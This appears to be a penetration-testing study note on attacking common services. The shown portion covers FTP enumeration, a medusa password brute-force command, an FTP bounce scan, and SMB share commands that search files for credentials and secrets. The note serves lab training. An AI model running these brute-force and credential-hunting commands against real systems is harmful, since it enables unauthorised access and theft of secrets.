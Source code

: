 # Attacking Common Services

1. [Protocol Specific Attacks](#protocol-specific-attacks)
1. [FTP](#ftp)
1. [SMB](#smb)
1. [SQL Databases](#sql-databases)
1. [RDP](#rdp)
1. [DNS](#dns)
1. [SMTP](#smtp)
1. [Skills Assessment](#skills-assessment)

## Protocol Specific Attacks

* Service misconfigurations:

  * Authentication - weak creds, anonymous authentication, misconfigured access rights
  * Unnecessary defaults - unnecessary features, error messages, disabled security features

## FTP

* Attacking FTP:

  ```sh
  # enumeration with nmap
  nmap -sC -sV -p 21 192.168.2.142

  # check anonymous login

  # bruteforcing attack using medusa
  medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp

  # ftp bounce attack
  # uses FTP servers to deliver outbound traffic to another device in network
  nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
  # here, we are using FTP server 10.10.110.213
  # to scan internal server 172.17.0.2 using ftp bounce attack
  ```

## SMB

* Interacting with SMB in Windows:

  ```cmd
  dir \\192.168.220.129\Finance\
  # interact with share

  # connect or disconnect using 'net use'
  net use n: \\192.168.220.129\Finance
  # here, we are connecting to file share and mapping its contents to n:

  net use n: \\192.168.220.129\Finance /user:plaintext Password123
  # using creds to authenticate

  # find number of files in shared folder recursively
  dir n: /a-d /s /b | find /c ":\"
  # /a-d, where /a is attribute and -d means no directories
  # /s for recursive and /b for bare format

  dir n:\*cred* /s /b
  # search for 'cred' keyword recursively in file or folder name
  # we can search for other terms like password, user, secret, key, or code file extensions as well

  findstr /s /i cred n:\*.*
  # to find specific word within text file
  ```